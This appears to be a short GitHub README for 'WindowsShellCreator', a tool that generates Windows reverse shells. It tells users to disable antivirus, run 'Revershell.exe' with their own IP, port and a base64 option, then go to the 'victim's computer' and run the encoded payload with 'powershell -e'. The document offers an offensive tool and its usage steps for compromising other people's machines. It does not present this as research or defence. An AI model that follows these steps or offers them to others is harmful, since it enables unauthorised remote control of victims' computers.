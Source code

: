 # WindowsShellCreator
### (Stable Release)

## How to Use ?
1. Disable AntiVirus Software
2. Download Zip File 
3. Extract File
4. Open CMD or Powershell as Administrator 
5. type "Revershell.exe -H '```your device ip```' -p '```Choose your port number```' -b64 '```y/n```'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

## How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` powershell -e ``` and paste the copied base64 script [e.g. ```` powershell -e 'base64encode here' ````]
